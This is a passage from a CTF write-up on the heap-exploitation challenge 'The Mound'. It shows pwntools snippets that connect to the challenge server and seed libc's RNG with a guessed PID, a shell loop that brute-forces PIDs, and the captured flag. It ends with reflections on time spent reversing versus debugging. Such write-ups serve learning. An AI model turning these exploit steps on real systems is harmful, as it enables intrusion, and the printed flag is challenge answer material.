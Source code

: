 ```python
r = remote('193.57.159.27', 41932)
libc.srand(t^int(args.PID))
```

 And executing the following shell script:

```sh
for i in `seq 1 3 32768` # increment PID by 3 for every guess; internally in the docker container
do python3.8 mound.py PID="$i" # the PID increases by 2 for every connection, so this improves the guessing 
done | tee mound.log
```

It doesn't work the first time around, but I repeat the process to obtain the flag:

```sh
$ grep { *.log
mound2.log:b'rarctf{all0c4t0rs_d0_n0t_m1x_e45a1bf0b2}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Segmentation fault\n'
```

And with that, I'm done with the technical stuff.

## Mistakes

[Content warning: unsubstantiated opinions]

### I. Pwn isn't RE

CTF pwn binaries are usually small enough to fully reverse engineer, and The Mound was no exception. But the reversing effort always arrives with the cost of Time. The entire section of this writeup dedicated to understanding [the heap implementation](#mound) was written _during_ the 36-hours between me starting this challenge and `mound.py` spitting out the flag. The assumption I've been rolling with, in all of the pwnables do, is that boosting `time(reversing binaries)` will pay off by a comparable reduction in `time(scripting and debugging)`.

That belief didn't work out for this challenge. At the end of the [`main()` reversing effort](#program-outline), I noted that I observed a few _Bad Things_ going on in the switch-cases. So I spent a thousand-or-so words reversing the interworkings of the `mound` to understand that sending a glibc pointer to `mfree()` tends to produce `Double free` `exit(1)` calls as a result of a null `prev_size`.

Do you know how else I could've discovered that? By just _testing out the damn thing_ and getting a backtrace:

```python
gdb.attach(r, gdbscript='b exit\nc')
strdup(b'hi', 0)
free(0)
r.interactive()
```

<p align="center">
<img src="image-20210809190804515.png">
</p>
